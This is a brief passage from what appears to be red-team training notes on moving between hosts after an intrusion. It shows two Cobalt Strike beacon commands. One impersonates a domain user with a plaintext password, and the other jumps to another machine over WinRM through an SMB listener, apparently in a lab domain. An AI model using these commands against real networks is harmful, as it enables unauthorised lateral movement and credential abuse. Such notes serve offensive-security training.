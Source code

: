 # Jumping Hosts





## Introduction

This page section will combine impersonation techniques found in the previous section "User Impersionation" with the actual techniques to establish connections on other hosts.







## Cobalt Strike&#x20;

### Jump

```bash
// Establish netonly Token (example)
beacon> make_token DEV\jking Qwerty123
// Jump (using SMB listener)
beacon> jump winrm64 sql-2.dev.cyberbotic.io Default_SMB_Listener
```
